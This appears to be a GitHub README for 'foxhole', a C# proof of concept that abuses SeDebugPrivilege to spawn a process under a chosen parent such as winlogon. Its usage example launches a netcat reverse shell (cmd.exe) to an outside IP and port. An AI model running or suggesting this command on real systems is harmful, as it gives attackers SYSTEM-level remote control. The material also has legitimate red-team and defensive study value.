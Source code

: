 # foxhole
This C# code creates child process of parent process that you determine (SeDebugPrivilege PoC)

Usage example:
.\foxhole.exe -p winlogon -c "c:\temp\nc.exe 10.10.14.174 9998 -e cmd.exe"


TODO:
CI/CD
###
DISCLAIMER
Everything presented in this repository is for educational purposes only
